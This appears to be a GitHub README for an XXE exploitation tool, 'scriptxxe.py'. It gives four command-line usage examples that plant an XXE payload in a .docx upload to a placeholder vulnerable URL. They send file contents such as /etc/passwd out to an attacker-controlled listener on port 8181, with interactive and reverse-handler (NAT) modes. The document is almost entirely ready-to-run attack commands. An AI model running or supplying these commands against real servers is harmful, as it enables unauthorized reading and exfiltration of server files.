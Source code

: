 # legendary-train
## File paths
```
rlwrap python3 scriptxxe.py -u http://vulnURL -l X.X.X.X -p 8181 -t toto.docx -D 'name=toto&email=zob&submit=Submit Query' --paths-file one-path-per-line-file.txt
```
## File path in arg
```
rlwrap python3 scriptxxe.py -u http://vulnURL -l X.X.X.X -p 8181 -t toto.docx -D 'name=toto&email=zob&submit=Submit Query' -P /etc/passwd
```
## Interactive mode
```
rlwrap python3 scriptxxe.py -u http://vulnURL -l X.X.X.X -p 8181 -t toto.docx -D 'name=toto&email=zob&submit=Submit Query'
```
## Reverse Handler IP (for natted people)
```
rlwrap python3 scriptxxe.py -u http://vulnURL -l 0.0.0.0 -rl X.X.X.X -p 8181 -t toto.docx -D 'name=toto&email=zob&submit=Submit Query'
```
